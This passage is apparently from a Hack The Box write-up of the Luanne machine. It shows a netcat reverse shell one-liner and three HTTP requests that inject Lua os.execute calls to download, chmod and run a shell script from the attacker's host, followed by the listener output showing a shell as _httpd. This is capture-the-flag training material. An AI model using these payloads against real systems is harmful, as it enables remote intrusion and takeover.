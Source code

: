 As we can notice the normal bash shell doesn't work with this machine this may be due to the fact that bash is not available in NetBSD systems.  
Since we can use curl, we can create a `shell.sh` file, host it using python, download the file, change the permission and execute the script via `sh` .  
Now, we can craft our payload with the common reverse shell:  
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.7 9001 >/tmp/f
```
Use the discovered command execution to download this file to `/tmp` .  
```
GET /weather/forecast?city=');os.execute("curl+10.10.14.7/shell.sh+-o+/tmp/shell.sh")-- HTTP/1.1
Host: 10.10.10.218
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Cache-Control: max-age=0

```
change permission of the file:  
```
GET /weather/forecast?city=');os.execute("chmod+777+/tmp/shell.sh")-- HTTP/1.1
Host: 10.10.10.218
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Cache-Control: max-age=0
```
and execute the downloaded shell:  
```
GET /weather/forecast?city=');os.execute("sh+/tmp/shell.sh")-- HTTP/1.1
Host: 10.10.10.218
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Cache-Control: max-age=0
```
Once we execute the shell, on our listener we can see that we get a shell as user `_httpd` .
```
root@kali Luanne ]$ bash                                  
root@kali:~/Documents/HTB/Boxes/Luanne# nc -lvnp 9001      
listening on [any] 9001 ...                                
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.218] 65031                                                           
sh: can't access tty; job control turned off               
$ whoami                                                   
_httpd                                                     
$            
```
## User
Once we log in, following our standard approach, we can run linPEAS looking for possible privilege escalation vectors.    